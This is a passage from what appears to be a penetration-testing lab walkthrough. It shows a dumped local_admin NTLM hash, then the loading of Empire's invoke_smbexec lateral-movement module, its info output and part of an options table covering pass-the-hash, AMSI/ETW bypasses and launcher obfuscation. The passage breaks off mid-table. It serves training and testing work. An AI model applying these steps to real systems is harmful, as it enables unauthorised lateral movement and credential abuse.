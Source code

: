 ```

RID  : 000003f1 (1009)
User : local_admin
LM   : 
NTLM : 89551acff8895768e489bb3054af94fd
```

_Loading the `invoke_smbexec` module to execute commands on remote hosts using SMBExec._

`usemodule powershell/lateral_movement/invoke_smbexec`

`info`:
```
 Author       @rvrsh3ll                                                        
 Background   False                                                            
 Comments     https://raw.githubusercontent.com/Kevin-Robertson/Invoke-        
              TheHash/master/Invoke-SMBExec.ps1                                
 Description  Executes a stager on remote hosts using SMBExec.ps1. This module 
              requires a username and NTLM hash                                
 Language     powershell                                                       
 Name         powershell/lateral_movement/invoke_smbexec                       
 NeedsAdmin   False                                                            
 OpsecSafe    True                                                             
 Techniques   http://attack.mitre.org/techniques/T1187                         
              http://attack.mitre.org/techniques/T1135                         
              http://attack.mitre.org/techniques/T1047  
```

`options`:

| Name             | Value              | Required | Description                         |
|------------------|--------------------|----------|-------------------------------------|
| Agent            | DemoINE            | True     | Agent to run module on.             |
| Bypasses         | mattifestation etw | False    | Bypasses as a space separated list  |
|                  |                    |          | to be prepended to the launcher.    |
| Command          |                    | False    | Custom command to run.              |
| ComputerName     |                    | True     | Host[s] to execute the stager on,   |
|                  |                    |          | comma separated.                    |
| CredID           |                    | False    | CredID from the store to use.       |
| Domain           | .                  | True     | Domain.                             |
| Hash             |                    | True     | NTLM Hash in LM:NTLM or NTLM        |
|                  |                    |          | format.                             |
| Listener         |                    | False    | Listener to use.                    |
| Obfuscate        | False              | False    | Switch. Obfuscate the launcher      |
|                  |                    |          | powershell code, uses the           |
|                  |                    |          | ObfuscateCommand for obfuscation    |
|                  |                    |          | types. For powershell only.         |
| ObfuscateCommand | Token\All\1        | False    | The Invoke-Obfuscation command to   |
|                  |                    |          | use. Only used if Obfuscate switch  |
|                  |                    |          | is True. For powershell only.       |
| OutputFunction   | Out-String         | False    | PowerShell's output function to use |
|                  |                    |          | ("Out-String", "ConvertTo-Json",    |